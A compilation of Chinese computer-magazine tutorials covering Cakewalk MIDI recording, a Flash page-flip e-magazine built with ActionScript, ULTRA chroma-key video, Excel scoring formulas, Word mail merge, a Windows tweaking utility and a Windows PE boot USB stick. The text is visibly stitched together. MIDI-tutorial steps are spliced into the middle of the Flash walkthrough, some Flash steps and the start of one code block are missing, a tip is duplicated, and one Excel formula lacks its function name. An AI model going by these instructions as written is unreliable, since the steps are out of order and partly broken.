单击菜单命令“View→Meter/Key”打开节拍/调号对话框，双击默认的“4 /4 C”(四四拍，C调)项打开修改窗口，在这里可以修改乐曲的节拍和调号，Beats per表示一小节有几拍，本例将其改为2，Beat表示多长音符为一拍，本例取默认值4分音符，Key Signature用来设置乐曲的调号，本例取默认值C。单击OK确认，我们就将当前乐曲修改成四二拍C大调的曲子了。

通常情况下，乐曲的速度不是自始至终一成不变的，为了制作的方便，可以在开始时确定一个速度(每分钟内的拍子数)，在MIDI编曲过程中再根据需要进一步调整。在工具栏的Tempo框中输入基本速度即可，它后面的几个按钮，用来设置乐曲播放时的速度是输入速度的多少倍(不会修改真正的速度值):分别为半速(1)、正常速度(2)、两倍速度(3)。减缓或加速播放速度，可以协助找到乐曲中的错误。

### 第四步:录制主旋律

1.回到音轨1上，如图所示，双击名称“Track 1”将其改为“主旋律”；单击左侧In项(“I”图标)右侧下拉按钮，在弹出菜单中选择“MIDI Omni”，这样就将外部的MIDI键盘连接到当前音轨中(如果你没有MIDI键盘，可省略此步骤)；单击Out(“O”图标)右侧下拉按钮，选择“Creative SW Synthesizer”(各人声卡不同，此项各异)。



## 喝！电子杂志是这样炼成的……

目前比较常见的电子书有PDF、HTML、PDF、CHM等多种格式，这些电子书一般都是图文并茂，深受大家喜爱。但你是否知道：这类电子书已经越来越落伍了，因为它们还不够酷、不够靓……今天，让我们用Flash来“出版”一本《电脑爱好者》数码杂志，它能活灵活现地模仿出现实中翻开书页的效果，并能融文字、图片、音乐、视频于一体，相信你一定会被这种形式的电子杂志迷倒。本文最终的动画文件及Flash源程序，可从http://www.newhua.com/cfan/200517FlashMag.rar处下载。

+   1. 首先到http://www.activeflash.net/download/FFlipPage2.0.zip下载一个免费的Flash翻页组件FFlipPage，解压后将得到一个后缀为MXP的文件，现在很多电子杂志都是通过该组件制作的。确认你的系统中已经安装了Flash MX Professional 2004(以下简称Flash)。在Macromedia程序组中启动Macromedia Extension Manager(如果你没有找到这个程序，可从http://download.macromedia.com/pub/dw_exchange/extension_manager/win/em_install_cn.exe下载安装)，单击工具栏上的对象下拉按钮，选择“Flash MX Professional 2004”，然后执行菜单“文件→安装扩展”命令打开一个对话框，选择上一步中下载所得的组件(FCInteractEffs_1.0.1.mxp)，再单击“安装”按钮根据提示安装该组件，最后关掉这个插件管理窗口即可。

> > 小提示: 本文中的翻页组件为免费版，目前网上也有3.0的免费版，但该版本组件不能嵌入电子杂志中，会额外增加一个SWF文件，不是很方便，这也是笔者使用2.0版本的原因。最新版本是3.1，不过是收费的，该版本包含有组件的示例及说明文档。

+   2. 启动Flash MX 2004，新建一个空白的Flash文档，将其保存为“电子书.fla”。按Ctrl + J键调出文档属性对话框，设置场景尺寸为1024×768，背景色为蓝绿色(#006699)，确定后返回。通过菜单命令“插入→时间轴→图层”(也可单击时间轴左下角的“插入图层”按钮)在主场景中插入四个新层，从下至上分别取名为：背景、组件、页面、按钮、音乐。

+   3. 用矩形工具在“背景”层的舞台上随意绘制一个矩形，然后用黑箭头选择工具选取整个矩形，接着在下方的属性面板中，将矩形的宽设置为800，高设置为600，X坐标设置为112，Y坐标设置为84，这样矩形就正好位于舞台的中间了；确保矩形仍为选中状态，按Shift + F9键打开混色器面板，单击其上的类型下拉按钮，选择“线性”给矩形填充上线性渐变(单击左侧的铅笔头图标，再在中间点选一种颜色，可调整渐变的色彩，这个大家可视自己的喜好而定)；用线条工具在任意处绘制一条垂直线，然后在属性面板中，将垂直线的高度设置为600(宽度默认为0，不用改变)，坐标设置为512(X)和84(Y)，将它作为电子杂志的左右分界线，全选矩形与直线，按Ctrl + G键将它们组合成一体。

+   4. 使用文本工具在杂志左页输入一些装饰性的文字，如“欢迎订阅”等，以及输入杂志的网址及E-mail地址。我们还可以为网址及E-mail地址加上链接效果，选中输入的网址，按F8键将它转换成按钮，确保其为选中状态，展开下面“动作 - 按钮”面板，在其中输入以下脚本语句：

```
actionscript
on (release) {
    getURL("http://www.cfan.com.cn");
}

```

```
actionscript
on (release) {
    getURL("mailto:hotline@cfan.com.cn");
}

```

+   5. 执行菜单命令“文件→导入→导入到库”将事先扫描修正好的《电脑爱好者》杂志的页面图片导入到库中。本例仅扫描了《电脑爱好者》杂志的封面，及其第13期的“特别话题”栏目的部分页面作为示例，其实你也可以使用其他的图片做实验，比如使用自己的数码照片，则最后的成品将是一个可以翻页的电子相册。

+   6. 按Ctrl + F8键创建一个名为“图片”的影片剪辑并进入该影片的编辑窗口中，按Ctrl + L键打开库面板，将库中的页面图片“封面.jpg”(即上一步中导入的图片之一)拖放到第1帧的舞台上，点选该图片，在属性面板中将图片的宽和高分别设置为400和600，X和Y坐标都是0。点选第2帧，按F7键将其转换为空白关键帧，将杂志的其他页面图片拖入，宽、高及坐标设置同上。按照同样方法，分别从库中将杂志正文页面的图片一一拖放到“图片”影片剪辑的其他各帧中。

> > 小提示: 本影片的前两帧是封面和目录，不计入页码中；第25帧是用来避开翻页组件的Bug，缺少该帧电子书翻到最后一页会出错。

第五步:在五线谱视窗中“照谱画谱”对初学者来说，“照谱画谱”的方式可能更容易操作，只要稍懂点五线谱的知识就可以了(其实，在中小学我们就已经接触过这方面知识了)。

## 实例2:免费MIDI键盘抱回家

也许你对音乐仅仅是一种爱好，还不想在这方面投入太多的资金购买一台好的MIDI键盘，那不妨通过一些工具软件来免费虚拟一个MIDI键盘。Cakewalk 9.0之后，其自带的虚拟钢琴工具不再是默认安装选项，而是作为一个插件程序来使用。除此之外，也有不少第三方的插件可以使用，下面就给大家介绍一款免费的虚拟钢琴插件。

+   1. 首先登录到http://nj.onlinedown.net/soft/28177.htm下载Virtual Keyboard DXi(虚拟键盘DXi)2.0。双击安装之后，它会询问你是否注册该插件，单击“是”确定。

+   2. 启动SONAR，单击菜单命令“Options→Global”，在打开的对话框的MIDI标签下，选中Echo DXi input to all MIDI项。

+   3. 单击菜单命令“View→Synth Rack”，在打开的对话框中单击“+”号按钮，勾选Virtual Keyboard DXi项，在随后打开的对话框中选中相应项，确定后即可打开一个虚拟钢琴的界面来。在SONAR中选中要录音的MIDI轨道，点亮“R”按钮，再单击工具栏播放条上的录音按钮，在提示节拍结束后，点击切换到虚拟钢琴上，按键盘上的相应按键就可以演奏了。再次单击录音按钮结束，你会发现MIDI音轨上已写满了音符，按空格键欣赏一下，效果还可以吧。

最后一页时，书页会不见了，这样书页的总页数是24页，显示页码的是22页；需要特别说明的是：这里的各帧还可以加入音、视频及动画等元素。

第七步：按 Ctrl + F8 键新建一个名为“页面”的影片剪辑，在该影片剪辑中插入 4 个新层，如图 1 所示，由下往上，将层分别命名为“图片”、“阴影”、“页码”、“翻页区”、“Action”；将第六步创建的“图片”影片剪辑拖放到“图片”层第1帧的舞台上，在属性面板中将其 XY 坐标都设置为0，实例名称设置为“image”。在“页面”层第3帧按 F5 键插入空白关键帧。



> 小提示
“页面”影片剪辑是本电子书制作的重点部分，它包括了电子书的翻页响应热区，书页的页码以及翻页组件的响应代码等。

第八步：在“阴影”层的第1帧上，绘制一个宽为80高为600的矩形，坐标是-40(X)和0(Y)，并填充上两边白中间黑的线性渐变色，X坐标是-40可以让其中心点定位在矩形的中间。选中阴影矩形，按 F8 键将它转化为名为“阴影”的影片剪辑，在属性面板中，将该剪辑元件的实例名称设置为“shade”，单击“颜色”右侧下拉按钮，选择“Alpha”并将其值设置为50%，使阴影具有半透明的感觉。在阴影层的第3帧按 F5 键，插入一个关键帧。这个阴影元件是翻页组件定位翻动后书页的参照物，同时它也能增强电子书的立体感。

> 小提示
左右页码的位置是以“阴影”影片剪辑为对称轴，左侧页码的横坐标之所以是-360而不是-330，是因为加上了文本框的宽度，否则书翻页后，两面的页码就不对称了。

第九步：选择工具箱中的“文本工具”，然后在“页码”层第1帧的舞台上单击，出现一个文本框，再在属性面板中将文本类型设置为“动态文本”，颜色与背景色一样，宽和高设置为30和20，坐标为330(X)和550(Y)，“变量”框中输入“Text”。在“页码”层第3帧按 F6 键插入一个关键帧，将该帧中的页码移动到左侧，坐标为-360(X)和550(Y)。

> 小提示
左右页码的位置是以“阴影”影片剪辑为对称轴，左侧页码的横坐标之所以是-360而不是-330，是因为加上了文本框的宽度，否则书翻页后，两面的页码就不对称了。

第十步：单击选择 Action 层的第1帧，再单击展开下面的“动作－帧”面板，加入如下代码：

```
#initclip
function onCreatePage(sender, pageMC, pageIndex){
  pageMC.flipper = sender;
  pageMC.pageIndex = pageIndex;
  pageMC.text = pageIndex==2 ? "":pageIndex-2+"";
  //从第3帧开始设置页码，封面和目录不算
  pageMC.image._x = pageIndex%2==1?0:-400;
  //设置翻页后页面的坐标
  pageMC.image.gotoAndStop(pageIndex);
  //翻转到下一页
  pageMC.gotoAndStop(pageIndex<=0 || pageIndex>25?4:pageIndex==25?2:pageIndex%2==1?1:3);
  //进入指定页面，其中25是“图片”影片剪辑的总帧数
}
function onPageMove(sender, x, y){
  if (!sender.trackMouse && x<-100){
    sender.stopFlip();
  }
  //当鼠标拖动的页面X坐标小于-100时，则自动完成翻页
}
function onFlipFinished(sender){
  sender.trackMouse = true;//鼠标在页面拖动时开始翻页
  timer = getTimer();//获取翻页时间
}
```

```
flipper.finishFlip();
}
if (flipper.flippingPage == null || flipper.flippingPage == this) {
  flipper.startFlip(-3);
}
}
on (release, releaseOutside) {
  flipper.stopFlip();
}
```

“按钮六”只需要将上面脚本中的“flipper.startFlip(-3);”语句改成“flipper.startFlip(-4);”即可。

```
为“按钮七”加上如下脚本：
on (press, rollOver) {
  if (flipper.flippingPage == null || flipper.flippingPage == this) {
    flipper.startFlip(3);
  }
}
on (release, releaseOutside, rollOut) {
  flipper.stopFlip();
}
```

“按钮八”只需要将上面脚本中的“flipper.startFlip(3);”语句改成“flipper.startFlip(4);”即可。最后将四个按钮的透明度(Alpha)也设置为0，这样响应区域才不会遮挡页面。

第十三步：回到主场景中，右击库面板中的“页面”影片剪辑，选择“链接”，在出现的对话框中选择“为动作脚本导出”和“在第1帧导出”两项，然后在“标识符”中输入：“Page”；接着将“页面”影片剪辑拖放到主场景“页面”层第1帧的舞台上，让它正好覆盖在分界线的右半面，点击该影片剪辑，在“动作－影片剪辑”面板中加入如下脚本：

```
onClipEvent (load) {
  this.unloadMovie();
}
```

第十四步：按 Ctrl + F7 键打开组件库面板，将 FCL Interactive Effects 下的 FFlipPage 组件拖放到主场景“组件”层的舞台上，在属性面板中单击右上角“参数”标签，在其中设置该组件的各种属性：宽和高分别为800和600，XY 坐标为112和84(注意，组件的大小与坐标一定要与第三步中设置的杂志外框的参数一致)；在 Page ID Name 中输入“Page”，这是“页面”影片剪辑的实例名称；Shade Name 中输入“Shade”，这是“阴影”影片剪辑的实例名称，组件在实施左右翻页时，它就是左右翻页时的对称轴；Drag Acceleration 的值修改为0.4，Tarack Mouse 的值使用默认的“true”；双击其中的 Events 选项，将 onCreatePage 的值设置为 onCreatePage， onPageMove 设置为 onPageMove， onFlipFinished 设置为 onFlipFinished。

第十五步：在库面板中，单击展开“Flash Componet Library→Interactive Effects”，右击其下的“FFlipPage”，选择“链接”，在链接属性中将 FFlipPage 组件的标识符设置为“FFlipPage”，并选中“为动作脚本导出”和“在第一帧导出”项。

第十六步：至此，《电脑爱好者》数码杂志制作的主要工作就已经完成了，现在是不是急着想按 Ctrl + Enter 键观看效果？且慢，此时发布会出错的，还得对发布选项进行一些设置。执行“文件→发布设置”调出设置对话框，在“格式”标签下，根据需要选中“Flash”(生成 SWF 文件)或“Windows 放映文件”(生成 EXE 可执行文件)；因为 FFlipPage 翻页组件的核心是基于 ActionScript 1.0 版写成的，所以还要在“Flash”标签中，将“版本”设置为“Flash Player 6”，“动作脚本版本”设置为“动作脚本 1.0”(不用担心，选择这两项发布的动画，在7.0版的 Flash 播放器上也能正常播放)；设置好后，单击“发布”按钮就可以生成想要的文件了，双击最终 SWF 动画文件(或 EXE 文件)，试着用鼠标在电子书的四角拖动，是不是显示出非常酷的翻页效果来。怎么样，感觉很不错吧！

(江苏 浒小♀周建峰)



## 搭建自己的虚拟演播室

经常在电视上看到这样一种情景：前景是主持人，背景则是不断变化着的视频场景（比如CCTV的天气预报节目），这就是普遍应用于电视制作行业的虚拟演播室技术。你想不想也玩一把虚拟场景技术来过过瘾？这对于影视后期制作高手来说也许容易办到，但相对于一般数码爱好者而言可就不那么容易了。今天，我们请出ULTRA，帮助朋友们搭建一个属于自己的虚拟演播室。

### ULTRA小档案

+   软件版本：1.25.2229.5
软件大小：250.4MB
软件性质：试用版
适用平台：Windows系列平台（需DirectX 9.0）
下载地址：首先登录到 http://www.seriousmagic.com/ultrademo.cfm 页面，根据提示，选择电视制式并填写自己的E-mail地址，网站将给你发送一封邮件，其中包含了下载链接及试用版序列号（安装必须）。试用版没有功能限制，但输出的视频上会加盖水印。

### 实例1：阳光下曼舞的新娘

+   第一步：输入蓝屏人像
所谓蓝屏人像，是指人物背景是单一的蓝色。最简单的方法是在墙上悬挂一幅蓝布（或绿布），然后用DV拍摄下人物在蓝色背景下的表演。这些素材你可以自己用DV拍摄，也可以从网上搜索下载，当然ULTRA自带了许多背景及蓝屏人像素材，足够我们尝试了。运行ULTRA，执行“File（文件）→New Sessions（新建场景）”菜单命令启动一个新任务。单击选择中间的“Input Clip（输入剪辑）”图标，然后再单击下面的Browse（浏览）按钮导入蓝屏人像剪辑，本例导入的是ULTRA安装目录中“Content\Sample Clips”子目录下的“Suzy-Wide-Spin (Wedding)DEMO.avi”视频文件。
第二步：快速抠像
首先用鼠标在左侧素材窗口里的背景上点选几个不同的色深点（由于拍摄灯光的原因背景颜色可能不均匀），然后单击下方的Keyer（调节器）选项卡，勾选其中的Enable（使有效）项，再单击下面的“Apply Points（应用点）”按钮，就可以完整地扣取人像了。你还可以使用“Matte Generation（调整光滑度）”下面的调整滑杆来改变透明度等参数，以达到更加满意的效果。
第三步：编辑人像
从上图可以看出，人像两侧的杂物还没有去掉，可以将它们裁剪掉。单击窗口下方Input（输入）选项卡，一边拖动调整“Input Cropping（剪裁）”中的绿框，一边观察上方的预览图像，直到将图像裁剪合适为止。拖动“Input Offset（移位）”中的线框，则可以调整人像在画面中的位置。
第四步：添加动态背景
单击中间Background（背景）图标，然后再单击下面Browse（浏览）按钮导入一个动态背景（静态图片也可以），本例导入的是“Content\Backgrounds\Animations”下的“Spiritual Aurora.mpg”视频文件。此时按下空格键先预览一下动画效果，感觉还不错吧，再次按空格键将停止播放。
第五步：进一步编辑
还可以对上面的动画作进一步的修改。单击Scene（场景）选项卡，拖动其下“Input Orientation in Scene”中的绿框，可以任意调整人像的角度；单击“Pan&Zoom（平移与缩放）”选项卡，拖动其中的两个绿线框，可以设置动画滚动出现效果。注意：前景与背景图像是分开的，当前选择的是哪个图像，编辑操作的效果即应用于哪个图像。
第六步：输出作品
最后，单击Output选项卡，设置好影片格式和输出路径，就可以点击“Save Output（导出）”按钮导出动画作品了。

### 实例2：我的动感天气预报

+   第一步：启动ULTRA后，单击Sessions选项卡，双击其下的“MSL2-Computer Lab Medium”项打开一个场景。
第二步：如果你不喜欢原场景中的女主角，也可以单击Browse按钮换成其他的角色（当然也可以是你自己拍摄的角色）。
第三步：点选“Source B”图标，然后单击Browse按钮将原来的静态图片素材换成动态视频（比如换成上例中使用的“Spiritual Aurora.mpg”视频文件）。此时按空格键试播一下，是不是看到了画中画的效果？前景中的女主播在介绍天气，后面的大屏幕上则是动态的天空景象，非常漂亮。同样可以借鉴上例中的方法，对各个元素进行相应修改。
ULTRA的内置功能还有很多，感兴趣的朋友不妨自己尝试一下。

（山东 猫咪老爸）

## 超级女声各展风采，Excel铁面无私

故事：为提升环球旅游公司的品牌知名度，公司决定联手其他几家大企业，合作举办一届“环球超级女声”大奖赛。比赛现场，由八戒负责在幕后即时统计各位选手的得分情况。这对八戒来说简直太容易了，只需Excel就能轻松搞定。

### 实战：快速打造即时评分系统

+   第一步：首先如图1所示建立起即时评分系统的表格框架。前台评委打好分后，后台操作员将各位评委的分数即时填入“分数”一栏；后面三行就会自动去掉一个最高分及最低分，并计算出该选手的最后平均得分。

C14 | 选手：玛利亚·凯莉
| 序号 | 评委 | 分数 |
|------|------|------|
| 1 | 评委甲 | 9.8 |
| 2 | 评委乙 | 9.7 |
| 3 | 评委丙 | 9.9 |
| 4 | 评委丁 | 9.8 |
| 5 | 评委戊 | 9.7 |
| 6 | 评委己 | 9.8 |
| 7 | 评委庚 | 9.8 |
| 8 | 评委辛 | 9.6 |
| 9 | 评委壬 | 9.8 |
| 14 | 去掉一个最高分 | 9.9 |
| 15 | 去掉一个最低分 | 9.6 |
| 16 | 选手最后得分 | 9.77 |

Sheet1 / Sheet2 / Sheet3

+   第二步：点选C14单元格（即提示语“去掉一个最高分”右侧的那个单元格），输入公式：“=MAX(C4:C12)”（不含引号，下同）；点选C15单元格（即提示语“去掉一个最低分”右侧的那个单元格），输入公式：“=MIN(C4:C12)”。前面那个公式是找出C4:C12单元格中最大的数值（即最高分），后面那个公式则是找出最小的数值（即最低分）。
MAX()vsMIN()小档案
MAX语法：MAX(number1,number2,...)
说明：这个函数可以找出参数列表中最大的数字。比如输入公式：“=MAX(1,8,2,6,8,5)”，则返回最大值8。不过本函数的参数有限，最多只能有30个参数，而且直接用数字作参数，局限性也很大，所以一般都使用区域来作为参数，如本例中用到的“=MAX(C4:C12)”，表示找出C4到C12之间的所有单元格中最大的数字。区域的范围可以很大，如“=MAX(A1:E10)”，可以求50个数字中的最大值。
MIN语法：MIN(number1,number2,...)
说明：与MAX函数的使用方法完全相同，不过它要查找的是参数表中的最小数值。比如输入公式：“=MIN(1,8,2,6,8,5)”，则返回的是1。
拓展训练：如果需要快速查看某个区域中的最大值或最小值，可以选中该区域，然后右击Excel 2003底部的状态栏，再单击“最大值”或“最小值”，就可以在状态栏右侧看到该区域的最大值或最小值了。同样方法，还可以求和、算平均数等。

```
=(SUM(C4:C12)-MAX(C4:C12)-MIN(C4:C12))/7
```

第三步：在C16单元格中（即提示文字“选手最后得分”右侧的单元格），输入公式“=AVERAGE(C4:C12)”，可以求出C4到C12之间所有单元格内数字的平均数。求平均数函数AVERAGE与MAX和MIN的使用方法相似，这里就不细说了。
细心的读者会发现，这样直接求平均数有一个问题：它没有减去一个最高得分及一个最低得分。所以本例中，我们将求平均数公式改造如下：

首先用SUM函数（这个函数在本刊第13期，西游后记第一回中就已经介绍过啦）求出C4:C12单元格中所有得分的和，然后再分别减去一个最高分及最低分（由MAX和MIN求得），最后除以7，就得到这个选手的最后平均得分了。为什么是除以7而不是9呢？因为去掉了两个评分，当然要减去了。
第四步：实际运行中，最后得分可能会是这样的：9.766666667。虽然非常精确，但是太多的小数显得有点麻烦。可右击C16单元格，选择“设置单元格格式”打开格式设置对话框，点击“数字”标签，在“分类”中点选“数值”，然后在右侧就可以根据需要设置“小数位数”了。本例设置位数为2，则得分9.766666667将四舍五入为9.77。
好了，现在只要输入各评委的评分，就可以即时显示出最高分、最低分以及最后的平均得分了。

> 一点通：
★ 第k大与第k小
有时不仅要知道一系列数字中最大的数，还想要知道第2大、第3大…第k大的数，这时可使用LARGE函数，它的语法形式为：
LARGE(array, k)
参数array可以是区域、数组或者值的列表；参数k则是希望返回其值的array中的位置（从最大值开始计数）。比如，将上面实例中C14单元格中的公式“=MAX(C4:C12)”换成“=LARGE(C4:C12, 2)”，如图1所示输入的数据，则返回值为9.8。注意，当你输入“=LARGE(C4:C12, 3)”时，会发现返回的还是9.8。这是怎么回事呢？原来，该列评分中有5个重复的9.8，对该列数据按降序排列后，第3个位置处依然是9.8，所以直到“=LARGE(C4:C12, 7)”才会显示为9.7。当k等于1时，则本函数的返回值与MAX函数相同。
若想求一系列数据中第k小的数，可使用函数SMALL，它与LARGE的使用方法相同，只不过求值的方向相反而已。上例中，公式“=(C4:C12, 1)”将返回值9.6。
★ 轻松求得中间数
中间数是指将一系列数据按顺序排列后，处于最中间位置的那个数。中间数可通过MEDIAN函数取得，它的语法形式为：MEDIAN(number1,number2,...)
本函数的使用方法与上面介绍的几个统计函数相似，就不详细介绍了，仅举一例：输入公式“=MEDIAN(1,2,3,4,5,6,7,8,9)”，返回值将为5；假设在单元格A1:A9中分别输入前面的9个自然数参数，则公式“=MEDIAN(A1:A9)”依然返回5。
★ 看看谁的回头率高
众数是指某一数据集中出现频率最高的那个数。例如，我们设计一个问卷来调查一一般人最喜欢的服装颜色是什么，那么对返回的调查问卷的结果进行众数分析(即找出出现频率最高的那个答案)，就可以了解大多数人最喜欢的是哪种颜色的服装了。在Excel中可以通过MODE函数求得众数，它的语法形式为:MODE(number1,number2,...)

依然以本文开始的那个实例进行实验，在任意一个单元格中输入公式:
=MODE(C4:C12)
显然，按如图所示输入的数据，返回的肯定是9.8了。

## 擂台赛:

本期的即时评分系统，实际上还有许多需要完善的地方，比如现实中的歌唱大赛，可能要分初赛、复赛、决赛等多轮比赛，如何将每个选手的得分累积起来？再比如，初赛的时候会有许多参赛者，如何将每一位选手的得分加到与该选手对应的单元格后，就刷新(清零)即时评分系统，以便开始下一位选手的记分？有兴趣的朋友不妨尽兴发挥一下，进一步完善这个即时评分系统。优胜者将可获得《电脑爱好者》精美的奖品一份。

## 虫虫通告栏:

《西游后记之Excel函数篇(二)——一年中必须记住的MM的节日》一文发表后，收到了不少朋友的来信，报告该文实例2“生日祝福，给客户送去一缕温馨”中的公式设计有Bug。原公式如下:
=IF(MONTH(A2)+DAY(A2)=MONTH(NOW())+DAY(NOW()),"Yes","No")
假设某人的生日是某年的10月3日，那么在1月12日、2月11日、12月1日……都将会提示为“Yes”，让人误以为都是他的生日，这显然是荒谬的。再比如：假设今天是2005年8月2日，月份与天数之和为10，那么1979年8月2日出生的人、1979年2月8日出生的人、1979年1月9日出生的人其月份与天数之和均为10，因此也均显示为“Yes”，这显然不对。

这几位读者朋友找出错误后，还给出了改正方案，修改公式如下:
=IF(AND(MONTH(A2)=MONTH(NOW()),DAY(A2)=DAY(NOW())),"Yes","No")
这样，通过直接比较月份数与日期数是否一致来判断生日，就不会出错了。这么大的一个虫子(Bug)，小编竟然没有发现，在此向广大读者致歉!小编在以后的工作中一定多多测试，尽量呈现给大家更加完美的内容。

在此特别感谢以下热心读者:
- 四川会东嘎吉中学朱昌奎
- 邮件用户名为hchine的读者朋友
- 邮件用户名为zeng roy的读者朋友
- CFan论坛用户名为wg1721219的读者朋友
- CFan论坛用户名为ucu的读者朋友
(安徽 无言)

## 以一当十，邮件合并建奇功

某一日，公司老总给人事部的小白派下一个任务，让他把单位所有员工的简历都打印一份出来。这下可难坏了小白:整个公司有二百多人，每个人的简历资料都是累积存储在Excel表格中的，要是一个一个提取出来，再在Word中排版打印，那工作量得多大啊，怕一整天的时间也不够用呢。最后还是在他同事的帮助下，小白巧用Word的邮件合并功能批量生成，十几分钟就搞定了。当他飞快地将一摞打印好的员工简历表送给老总时，老总直夸他的办事效率高。

第一步:Word邮件合并的本质，实际上就是把文档中变与不变的内容巧妙结合到一起的功能。邮件合并功能在需要加入变化信息的地方插入“合并域”特殊标识(实际上就是占位符)，用于指示Word在何处插入数据源中的数据。上面的任务中，简历表的标题、表格的排版格式、单元名称等内容是固定不变的，可以统一在“主文档”中对其进行设置；而其他信息，如员工具体的姓名、性别、年龄等内容则因人而异，是变动的，可从Excel、Access等数据库中获取，即“数据源文件”。本任务中，数据源文件已经具备了，就是该公司人事部已经建立好的Excel员工信息表。它的结构如图1所示，分为姓名、性别、出生年月等9项内容。



第二步:启动Word 2003，现在先建立一个主文档，设计排版出如图2所示的一个表格来，这些内容也是简历表中不会变动的部分。当然，这里仅是一个示例，你完全可以设计出更好看的版式来。



第三步:邮件合并既可以通过向导来完成，也可以通过邮件合并工具栏来完成，本例我们选择后者，笔者觉得通过工具栏来完成合并，既快又方便。执行菜单命令“工具→信函与邮件→显示邮件合并工具栏”调出邮件合并工具栏，光标滑过每个工具时，都会显示出该工具的名称。

1. 点击“打开数据源”按钮(左起数第2个图标)，在打开的选取数据源对话框中找到并打开第一步中所提到的员工信息Excel文件(本例中为:“员工简历表.xls”)，打开Excel文件时还会询问你打开该文件中的哪个工作表(默认有三个工作表)，这里选择存储有员工信息的那个工作表即可(Sheet1$)。
2. 确定后返回Word主界面，点击Word简“姓名”后面的单元格，使其中显示出闪烁的插入光标，然后点击“插入域”按钮(左起数第6个图标)打开插入合并域对话框，选择“姓名”项，单击“插入”，最后单击“关闭”退出。这时，会发现在简表“姓名”后面的单元格中出现“《姓名》”字样，这就是合并域的所谓占位符了。以同样方法，为其他项目插入相应的合并域。

第四步:点击“查看合并数据”按钮(即标有“ABC”的那个图标)，你会惊奇地发现，所有占位符都被替换成真实的数据了，单击工具栏上的左、右方向按钮，可以快速浏览所有的简历(见图3)。浏览简历，觉得没有问题后，就可以单击“合并到新文档”按钮(倒数第4个图标)，从弹出对话框中选择“全部”记录，确定后即可生成一个全新的Word文档，每个人的简历都被放在一个单独的页面中，按下“打印”按钮打印就可以了。



邮件合并的功能如此强大，好好利用可大大提高工作效率。在填写各种各样的调查表、报表、套用信函、信封、电子邮件等的时候，如果资料的格式都相同，只是具体的数据有所变化，都可以通过上面的方法来轻松完成。
(北京 梦寻)

## 免费全能助手，Windows优化不愁

对于普通用户来说，如果想让Windows工作得更出色，那么一款专业的系统优化软件应该是你的首选，但目前此类软件大多是共享软件，而“全能助手Windows优化王”不但完全免费，而且操作也非常简单。

### 全能助手Windows优化王小档案
| 项目 | 内容 |
| :--- | :--- |
| 软件版本 | 2.31 |
| 软件大小 | 2969KB |
| 软件性质 | 免费软件 |
| 适用平台 | Windows 9x/2000/XP/2003 |
| 下载地址 | http://nj.onlinedown.net/soft/39418.htm |

### 1.初级优化

运行“全能助手Windows优化王”，软件界面如图，可以看到其功能非常强大。在左侧详细地陈列出了各种常见的优化操作功能，窗口右侧默认显示的是“优化设置”项下的内容，可以对Windows进行优化设置，管理Windows插件等。

### 实例:加快Windows的速度

点击“Windows系统优化”。在“系统核心优化”项下根据自己硬件配置勾选“大系统缓存”和“磁盘I/O缓存”，这样能加快应用程序运行速度，接着在“Windows XP”标签页中勾选“取消预读功能”，这样可以加快Windows的启动速度。最后点击右下角的“应用”按钮，软件就会提醒你“优化完毕”。



### 小提示
- 在“视频抓图”标签下，勾选“开启Print Screen键抓取DirectX图像功能”，可以加强Print Screen键的功能。
- “全能助手Windows优化王”还有很多功能，比如修复IE、管理端口、MP3更名等，可以说Windows优化王包括了非常多的实用功能。

### 2.为你的系统请个好助手

“优化王”启动后，左侧就会在系统托盘处打开助手图标，通过它你可以快速地完成很多操作，比如选择“系统增强→流量统计报告”，就可以看到本月内的网络流量等。
(河北 闫艳力)

## # 将Windows装进你的闪存盘

在《揭秘改造新招数 我的闪存盘大不同》一文中介绍了制作系统维护启动闪存盘的方法，但对于一些要求较高的系统维护工作，这些简单的工具就很难满足需要了，这里笔者将为大家介绍更高级的系统维护启动闪存盘的制作方法，让你的闪存盘不仅可以启动深山红叶光盘的Windows PE系统，更可以具备多启动功能，实现更多、更强的系统维护功能。

### ## 闪存盘上的深山红叶

深山红叶光盘中的核心就是集成的Windows PE系统，它可以让我们直接启动到Windows XP内核的图形界面进行操作，并可以运行大部分的Windows工具，以实现更方便、强大的系统维护功能。

> > 小提示
> 使用“深山红叶”、“下载”、“Windows PE”等关键词，在Google或百度进行搜索就可以找到深山红叶的ISO文件。

制作能启动Windows PE的闪存盘原理其实也很简单，和把Windows PE安装到硬盘上的方法类似，因此首先要求你的闪存盘能以USB HDD模式启动，也就是启动后的闪存盘盘符为C，并且容量至少为256MB。如果你的闪存盘不是HDD类型，通常可以使用驱动光盘中附带的格式化工具进行转换，如果闪存盘没有附带这样的工具，也可以尝试使用《揭秘改造新招数 我的闪存盘大不同》一文中介绍的PortFree Production Program(简称PFPP，下载地址:http://www.newhua.com/cfan/200517/upan_PDx8_327.zip)工具进行转换，对于一部分闪存盘来说，这种方法是有效的。

运行PFPP程序后，插入闪存盘，如果界面中的向上箭头变为亮蓝色，说明本工具对你的闪存盘是有效的，这时单击界面右下角的“OPTION”(选项)按钮，在弹出的窗口中单击“Flash Test”(闪存盘测试)选项卡，选中“Reproduction”(再现)选项，然后再单击“Others”(其他)选项卡，在“Type”(类型)下面选中“Fix-Disk”(修复闪存盘)选项，最后单击“OK”按钮保存后返回主界面，单击“RUN”按钮即可完成转换。接下来，就可以开始制作了。

+   第一步:在Windows XP操作系统中右击闪存盘盘符，选择“格式化”，在“文件系统”下拉框中选择“FAT”或“FAT32”，并选中下面的“快速格式化”选项，单击“开始”按钮完成格式化操作。这个步骤用来向闪存盘引导扇区写入引导数据，用以引导Windows PE系统的NTLDR。
-   第二步:将深山红叶光盘PEXP目录下的“NTDETECT.COM”复制到闪存盘根目录中，然后再复制PEXP目录中的“SETUPLDR.BIN”文件到闪存盘根目录中，并将其改名为“NTLDR”(注意没有扩展名)。
-   第三步:在闪存盘上新建一个目录，名称为“Minint”，注意必须使用这个名称，然后复制深山红叶光盘PEXP目录下的所有文件到闪存盘Minint目录。
-   第四步: 将深山红叶光盘中的“DOCUMENTS AND SETTINGS”和“PROGRAMS”两个目录以及根目录中的“BOOTFONT.BIN”文件复制到闪存盘根目录。
-   第五步:进入CMOS设置，在“Advanced Setup”(高级设置)项的“1st Boot Device”(第一个启动设备)选项中，将第一引导设备设置为“USB HDD”，然后使用我们制作的闪存盘引导电脑，就可以引导进入Windows PE系统了。

> > “BOOTFONT.BIN”文件是Windows XP启动菜单和系统启动过程中用来显示中文字体的语言支持文件，如果发现Windows XP启动菜单变成了英文，或Windows PE启动进度条上的中文字体不能显示，就是这个文件丢失了。

### ## 移动硬盘也用Windows PE

